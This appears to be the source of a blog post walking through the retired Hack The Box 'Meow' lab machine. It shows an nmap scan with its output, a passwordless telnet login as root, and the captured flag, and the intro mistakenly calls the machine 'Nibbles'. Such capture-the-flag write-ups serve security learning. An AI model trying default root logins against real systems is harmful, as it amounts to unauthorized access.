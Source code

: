 ```yaml
---
title: "Hack The Box - Meow"
date: 2022-10-10T00:26:33+05:30
draft: false
description: Meow from HackTheBox is an retired machine which is vulnerable to Telnet and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: true
author: Atom
authorEmoji: ✍️
tags:
- Telnet
series:
- Starting Point Tire 0
categories:
- Easy
- HackTheBox
- Linux
- Public Exploit
libraries:

image: /images/hackthebox/meow/Meow1.png 
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Nibbles Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 23 ware open. while trying to connect with default or well known usernames. telnet ware get logged in without using password.

## Mind Map 
{{< img src="/images/hackthebox/meow/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon 
Lets start with Initial scan.

```bash 
atom@atom-VirtualBox:~/htb/meow$ sudo nmap -sC -sV -O 10.129.144.166 -oN initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 01:16 IST
Nmap scan report for 10.129.144.166
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/10%OT=23%CT=1%CU=30227%PV=Y%DS=2%DC=I%G=Y%TM=634325
OS:3C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2
OS:=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
atom@atom-VirtualBox:~/htb/meow
```
Lets we try to connect Telnet port 23 using some well-known default usernames and password like ubuntu, administrator,user,root ... 

```bash
atom@atom-VirtualBox:~$ telnet 10.129.143.226 23
Trying 10.129.143.226...
Connected to 10.129.143.226.
Escape character is '^]'.
root

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Oct 2022 04:55:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.143.226
  IPv6 address for eth0: dead:beef::250:56ff:fe96:1afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```
we successfully get logged in. let's dig for a flag 

```bash 
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# whoami
root
root@Meow:~# 

```